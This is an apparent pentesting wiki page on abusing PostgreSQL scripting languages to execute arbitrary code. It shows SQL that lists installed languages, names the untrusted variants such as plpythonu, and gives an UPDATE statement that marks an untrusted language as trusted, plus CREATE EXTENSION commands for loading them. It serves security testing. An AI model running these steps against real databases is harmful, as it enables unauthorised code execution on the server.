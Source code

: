 ```yaml
---
layout: page
title: PostgreSQL Languages
description:
category: postgresql-injection
toc:
  sidebar: left
---
```


## PostgreSQL Languages

The PostgreSQL database you got access to may have different **scripting languages installed** that you could abuse to **execute arbitrary code**.

You can **get them running**:

```sql
\dL *

SELECT lanname,lanpltrusted,lanacl FROM pg_language;
```

Most of the scripting languages you can install in PostgreSQL have **2 flavours**: the **trusted** and the **untrusted**. The **untrusted** will have a name **ended in "u"** and will be the version that will allow you to **execute code** and use other interesting functions. This are languages that if installed are interesting:

- **plpythonu**
- **plpython3u**
- **plperlu**
- **pljavaU**
- **plrubyu**
- ... (any other programming language using an insecure version)

> [!WARNING]
> If you find that an interesting language is **installed** but **untrusted** by PostgreSQL (**`lanpltrusted`** is **`false`**) you can try to **trust it** with the following line so no restrictions will be applied by PostgreSQL:
>
> ```sql
> UPDATE pg_language SET lanpltrusted=true WHERE lanname='plpythonu';
> # To check your permissions over the table pg_language
> SELECT * FROM information_schema.table_privileges WHERE table_name = 'pg_language';
> ```

> [!CAUTION]
> If you don't see a language, you could try to load it with (**you need to be superadmin**):
>
> ```
> CREATE EXTENSION plpythonu;
> CREATE EXTENSION plpython3u;
> CREATE EXTENSION plperlu;
> CREATE EXTENSION pljavaU;
> CREATE EXTENSION plrubyu;
> ```

